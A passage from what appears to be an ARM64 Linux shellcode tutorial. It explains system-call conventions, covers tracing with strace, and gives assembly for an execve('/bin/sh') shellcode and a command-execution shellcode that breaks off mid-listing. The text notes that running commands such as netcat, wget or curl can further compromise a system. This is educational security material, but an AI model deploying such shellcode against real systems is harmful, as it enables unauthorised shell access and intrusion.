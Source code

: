 All registers except those required to return values are preserved. System calls return results in x0 while everything else remains the same, including the conditional flags. In the shellcode, only immediate values and stack are used for strings. This is the approach I recommend because it allows manipulation of the string before it’s stored on the stack. Using LDR and the literal pool is a good alternative.

### 6.2 Tracing

“strace” is a diagnostic and debugging utility for Linux can show problems in your code. It will show what system calls are implemented by the kernel and which ones are simply wrapper functions in GLIBC. As I found out while writing some of the shellcodes, there is no `dup2`, `pipe`, or `fork` system calls. There are only wrapper functions in GLIBC that call `dup3`, `pipe2` and `clone`.

### 6.3 Executing a shell.

```assembly
// 40 bytes

    .arch armv8-a

    .include "include.inc"

    .global _start
    .text

_start:
    // execve("/bin/sh", NULL, NULL);
    mov    x8, SYS_execve
    mov    x2, xzr           // NULL
    mov    x1, xzr           // NULL
    movq   x3, BINSH         // "/bin/sh"
    str    x3, [sp, -16]!    // stores string on stack
    mov    x0, sp
    svc    0
```

### 6.4 Executing a command.

Executing a command can be a good replacement for a reverse connecting or bind shell because if a system can execute netcat, ncat, wget, curl, GET then executing a command may be sufficient to compromise a system further. The following just echos “Hello, World!” to the console.

```assembly
// 64 bytes

    .arch armv8-a
    .align 4

    .include "include.inc"

    .global _start
    .text

_start:
    // execve("/bin/sh", {"/bin/sh", "-c", cmd, NULL}, NULL);
    movq   x0, BINSH             // x0 = "/bin/sh\0"
    str    x0, [sp, -64]!
    mov    x0, sp
    mov    x1, 0x632D            // x1 = "-c"
    str    x1, [sp, 16]
    add    x1, sp, 16
    adr    x2, cmd               // x2 = cmd
    stp    x0, x1,  [sp, 32]     // store "-c", "/bin/sh"
    stp    x2, xzr, [sp, 48]     // store cmd, NULL
    mov    x2, xzr               // penv = NULL
```